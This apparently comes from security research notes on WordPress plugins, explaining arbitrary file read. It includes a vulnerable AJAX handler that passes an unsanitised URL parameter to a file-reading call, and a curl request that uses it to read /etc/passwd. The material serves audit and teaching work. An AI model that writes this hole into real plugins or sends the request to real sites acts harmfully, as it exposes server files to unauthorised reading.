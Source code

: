 ### Arbitrary file read

-----------------

- This include improper file fetching handling in a plugin that can be used to read local files on the server.

- Useful php functions-:

```php
file_get_contents();
readfile()
fopen()
fread()
fgets()
fgetcsv()
fgetsss() deprecated from PHP 7.3
file
cURL
```

- Wordpress related -:

```
Wp_Filesystem_Direct::get_contents();
Wp_Filesystem_Direct::get_contents_array();
```

- Vulnerable Code-:

```php
add_action("wp_ajax_get_file", "ajax_get_file");

public function ajax_get_file(){
    global $wp_filesystem;

    // Make sure that the above variable is properly setup.
    require_once ABSPATH . 'wp-admin/includes/file.php';
    WP_Filesystem();

    $url = $_GET["url"];
    $data = $wp_filesystem->get_contents($url);
    $data = json_encode( $data );
    echo $data;
    die();
}
```

- Exploiting it-:A request will be made to `/wp-admin/admin-ajax.php?action=get_file

```bash
curl '<WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=get_file&url=/etc/passwd' -H 'Cookie: <AUTHENTICATED_USER_COOKIE>'
```
------------

### Authenticated Arbitrary file deletion in funnel forms 3.7.2
